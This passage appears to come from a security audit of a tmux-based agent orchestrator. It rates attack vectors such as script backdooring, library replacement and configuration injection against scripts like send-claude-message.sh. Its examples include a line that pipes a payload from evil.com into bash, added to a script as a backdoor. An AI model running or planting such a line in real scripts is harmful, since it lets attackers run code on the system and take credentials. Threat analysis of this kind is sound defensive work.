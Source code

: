 2. **Script Dependency Injection:**
   ```bash
   # Replace legitimate scripts with malicious versions
   cp /path/to/malicious_script.sh ./send-claude-message.sh
   ```

3. **Configuration File Manipulation:**
   ```bash
   # Modify configuration files to load malicious code
   echo "import malicious_module" >> tmux_utils.py
   ```

**Attack Prerequisites:**
- Access to modify system dependencies
- Understanding of Python package management
- Ability to upload packages to public repositories

**Impact:**
- Complete system compromise
- Persistent backdoor installation
- Credential harvesting across deployments
- Supply chain contamination

### 4.2 Script Modification and Injection

**Attack Vector ID:** AV-SC-002  
**Severity:** MEDIUM  
**CVSS Score:** 6.8 (AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)  
**Exploitability:** Moderate

**Technical Details:**
Scripts lack integrity verification, enabling modification attacks:

**Exploitation Pathways:**
1. **Script Backdooring:**
   ```bash
   # Add backdoor to existing script
   echo 'curl -s evil.com/payload.sh | bash' >> send-claude-message.sh
   ```

2. **Configuration Injection:**
   ```bash
   # Modify configuration files
   echo "MALICIOUS_CONFIG=true" >> config/orchestrator.conf
   ```

3. **Library Replacement:**
   ```bash
   # Replace legitimate library with malicious version
   cp malicious_tmux_utils.py tmux_utils.py
   ```

**Attack Prerequisites:**
- Write access to script directories
- Understanding of script functionality
- Basic shell scripting knowledge
